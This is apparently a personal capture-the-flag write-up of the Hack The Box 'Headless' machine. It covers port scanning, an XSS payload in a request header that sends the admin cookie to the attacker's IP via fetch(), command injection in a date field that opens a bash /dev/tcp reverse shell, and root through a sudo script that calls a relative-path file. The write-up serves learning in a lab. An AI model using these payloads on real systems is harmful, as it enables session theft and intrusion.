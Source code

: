 # [Headless](https://app.hackthebox.com/machines/Headless) Writeup [HTB]
## ⏯️ Credits
This was my first XXS/command injection challenge, and I was super lost. So I basically followed [this official video](https://www.youtube.com/watch?v=FDCpJbS1OuQ). It was great!

## 🗺️ Exploring the website
We begin by scanning the services that are exposed using `nmap`. 
We discover that port 5000 is open, and it's returning some HTML. Therefore, we connect to it using the browser.

The website appears to be under construction. We also notice that HTTP requests automatically set an `is_admin` cookie:
```
is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```
We try to see whether it's written in base 64:
```sh
$ echo InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs | base64 -d
"user"base64: invalid input
```
We deduce that the first part determines our privileges (we are a simple user), while the second part looks like a signature. Interestingly enough, the cookie doesn't change when we reload the page, meaning there's no concept of session, and we can most likely steal the admin cookie.

Finally, we use `feroxbuster` to bruteforce the website directories. We find 2 of them:
- `/support`, containing a POST form;
- `/dashboard`, that we don't have access to (this most likely requires admin privileges).

## 🍪 Playing with the form
The contact form contains the following fields: first name, last name, email, phone number and message. Given that we want to steal that admin cookie, we begin by trying some POC XXS in the message field:
```html
<script>alert('AAA')</script>
```
The website is not happy about it, as it returns a "Hacking Attempt Detected" page, stating that the admin will be notified, and printing on screen the header of our POST request. Interesting... 
If the admin visualizes on screen the same exact header of our request, then we can inject some HTML script in it, and get the admin cookie nicely delivered to us!

To do so, we add a new, not-at-all-sketchy cookie: 
```html
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs;xxs=<script>fetch("http://10.10.14.136:4815/?"+document.cookie)</script>
```
where `10.10.14.136` is our vpn IP address.

We also open a channel on port 4815 to see our cookie:
```sh
$ nc -lvnkp 4815
```

We wait a few minutes and... voilà! The admin cookie has been delivered, right at our doorsteps!
```
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

## 🐚 Accessing the dashboard and getting the reverse shell
Now that we got admin privileges, we can easily access to the `/dashboard` page. This is another form-looking thing, asking for a date and retrieving website statistics for it.
We want to get some kind of shell on the app web server, so we try to inject commands in the `date` parameter of the HTTP POST body. As before, we begin with some POC:
```
date=2023-09-15;sleep 2
```
Bingo! The response takes around 2 seconds to arrive, meaning we can inject commands in the web server and get a well deserved reverse shell!
```
date=2023-09-15;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.136/4815+0>%261'
```
Here we are using the classic `bash -c 'bash -i >& /dev/tcp/10.10.14.136/4815 0>&1'`, which runs an interactive instance of bash and redirects everything to our local web server.

## 🫚 Becoming root and owning the ~~world~~ flag!
Now that we have our shell, we begin with some exploration:
```sh
$ whoami
dvir
$ sudo -l
[...]
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
From the HTB website, we know the flag is in the `/root` directory, which of course is not accessible to our peasant user.
However, we are still allowed to run this `/usr/bin/syscheck` script with root permissions. Interesting... 

The script is not very long. The most interesting part is this "if" clause:
```sh
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```
While all the other commands are called with their full name, this `./initdb.sh` script is called with its relative path. Moreover, since it's called by a process with root privileges, it will also have root privileges. Very convenient...

From our home directory (on which we have writing permissions), we create our own `initdb.sh` file. Useless to day, it will **__not__** initialize the database.
```sh
$ echo bash > initdb.sh
$ chmod +x initdb.sh
```
Now we are ready to run the system check!
```sh
$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.5G
System load average:  0.00, 0.00, 0.04
Database service is not running. Starting it...
$ whoami
root
$ ls /root
root.txt
$ cat /root/root.txt
<THE FLAG>
```
## 🚩 Conclusion and tools recap
That's all folks!

I really enjoyed this challenge, it was a good starting point for HTB and I learned a lot of useful stuff!

**__Tools recap__**
- `nmap` to scan ports: nmap -sC -sV 10.10.11.8
- `feroxbuster` to bruteforce the website directories: feroxbuster --url http://10.10.11.8:5000 -w ~/snap/feroxbuster/common/raft-medium-directories.txt
- Burp Suite Community Edition to make and intercept HTTP requests


